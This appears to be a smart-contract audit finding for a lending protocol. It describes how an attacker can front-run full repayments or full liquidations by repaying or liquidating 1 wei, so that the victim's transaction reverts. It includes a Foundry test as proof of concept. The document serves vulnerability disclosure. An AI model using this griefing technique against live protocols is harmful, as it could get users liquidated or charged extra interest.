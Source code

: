 ## Impact Explanation

**High**

* If a user wants to repay their whole debt, an attacker can call `repayBorrowOnBehalfOf` and repay just 1 wei, which will cause the user’s transaction to fail. Repayment is a time-sensitive function. DoS’ing such a transaction might cause the attacked user to be liquidated, or incur interest expenses.
* If a liquidator wants to liquidate the whole position of a user, this can be front-run, and an attacker can liquidate or repay 1 wei of the debt, causing the full liquidation to revert.

## Likelihood Explanation

**Medium** — This can only be triggered (without significant costs for the exploiter) on full repayments.

## Proof of Concept

The test shows that a malicious user can block a full liquidation of a position by liquidating 1 wei of the position.
To run the test:
`forge test --match-test test_stop_liquidation_with_dustLiquidation -vvvv`

```solidity
function test_stop_liquidation_with_dustLiquidation() public {
    address user1      = makeAddr("user1");
    address depositor = makeAddr("depositor");
    address liquidator = makeAddr("liquidator");

    doDeposit(depositor, depositor, address(pUSDC), 2000e6);

    doDepositAndEnter(user1, user1, address(pWETH), 1e18);
    doBorrow(user1, user1, address(pUSDC), 1450e6);

    mockOracle.setPrice(address(pWETH), 1757e6, 18);
    
    LiquidationParams memory lp = LiquidationParams({
        prankAddress: liquidator,
        userToLiquidate: user1,
        collateralPToken: address(pWETH),
        borrowedPToken: address(pUSDC),
        repayAmount: 725e6,
        // We do expect the real liquidation to fail
        expectRevert: true,
        error: abi.encodePacked(bytes4(0xd1192049), uint256(6))
    });

    LiquidationParams memory lp1 = LiquidationParams({
        prankAddress: liquidator,
        userToLiquidate: user1,
        collateralPToken: address(pWETH),
        borrowedPToken: address(pUSDC),
        repayAmount: 1,
        expectRevert: false,
        error: abi.encodePacked(bytes4(0xd1192049), uint256(5))
    });

    doLiquidate(lp1);

    doLiquidate(lp);
}
```
